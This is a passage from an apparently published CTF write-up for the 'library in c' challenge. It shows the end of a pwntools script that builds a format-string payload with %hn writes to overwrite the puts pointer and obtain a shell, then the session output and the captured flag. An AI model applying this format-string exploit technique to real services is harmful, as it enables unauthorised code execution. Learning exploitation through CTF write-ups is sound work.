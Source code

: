 # write the halfword sections to the sections of the puts pointer

sm = sorted(ps)[0]
pl = "%{}x".format(sm)
pl += "%{}$hn".format(ps[sm])

md = sorted(ps)[1]
pl += "%{}x".format(md - sm)
pl += "%{}$hn".format(ps[md])

lg = sorted(ps)[2]
pl += "%{}x".format(lg - md)
pl += "%{}$hn".format(ps[lg])

# keep stack aligned 
pl += "A" * (40 - len(pl))

pl += p64(puts + 0) # 21$
pl += p64(puts + 2) # 22$
pl += p64(puts + 4) # 23$

# send the payload
r.sendline(pl)

r.interactive()
{% endhighlight %}

Running this script gives us an interactive prompt. 

```
root@b1a0c5b0df97 /pwn# python exploit.py 
[+] Opening connection to shell.actf.co on port 20201: Done
[*] Switching to interactive mode
$ id
uid=11969(problem2020_library_in_c) gid=11969(problem2020_library_in_c) groups=11969(problem2020_library_in_c)
$ cat flag.txt
actf{us1ng_c_15_n3v3r_4_g00d_1d34}
```

Using `cat` on the flag file gives us `actf{us1ng_c_15_n3v3r_4_g00d_1d34}`, which can be submitted on the site for 120 points!